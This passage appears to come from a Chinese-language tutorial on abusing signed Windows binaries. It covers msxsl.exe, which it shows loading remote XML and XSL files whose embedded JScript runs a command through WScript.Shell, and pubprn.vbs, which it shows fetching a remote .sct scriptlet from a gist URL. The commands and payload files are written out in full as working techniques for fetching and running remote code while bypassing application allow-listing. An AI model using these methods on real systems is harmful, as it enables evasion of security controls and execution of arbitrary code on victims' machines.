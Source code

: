 

**14、MSXSL.EXE**

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：<https://www.microsoft.com/en-us/download/details.aspx?id=21714>

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
  
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;
  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```



![](./image/20200413-14.png)



**15、pubprn.vbs**

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```
